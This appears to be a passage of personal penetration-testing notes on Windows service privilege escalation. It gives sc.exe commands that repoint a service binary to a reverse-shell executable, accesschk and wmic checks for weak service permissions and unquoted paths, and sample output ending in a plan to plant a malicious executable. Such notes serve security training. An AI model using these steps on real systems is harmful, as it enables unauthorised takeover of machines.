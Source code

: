 Modify options
`sc.exe config <name> <options>= <value>`
i.e. `sc config daclsvc binpath= "\"c:\PrivEsc\rev.exe\""`

Official list of parameters: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config

Start/Stop Service
`net start/stop <name>`
i.e. 'net start daclsvc' 

#### Service Exploitation


1. Insecure Service Properties

Dangerous permissions: SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS

RABBIT HOLE: Make sure you can restart the service or machine to make changes active!

`accesschk.exe /accepteula -ucqv servicename`

2. Unquoted Service Path

```cmd
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

* Or use accesschk.exe to check permissions on all directories within C:\

* Example unquoted path: c:\Program Files\Unquoted Path\Some Program\bin.exe

```powershell
# First check c:\
accesschk.exe /accepteula -uwdq C:\

#output 
PS C:\temp> .\accesschk.exe /accepteula -uwdq "c:\"


  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  RW NT SERVICE\TrustedInstaller

# Check 'Program Files'

PS C:\temp> .\accesschk.exe /accepteula -uwdq "C:\Program Files\"

  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  RW pc\user # Bingo! RW access for user!

# Bingo! User has local access read and write rights
# Now we can create a malicious Uquoted.exe with reverse shell in Program Files directory and exploit it by restarting the service
```
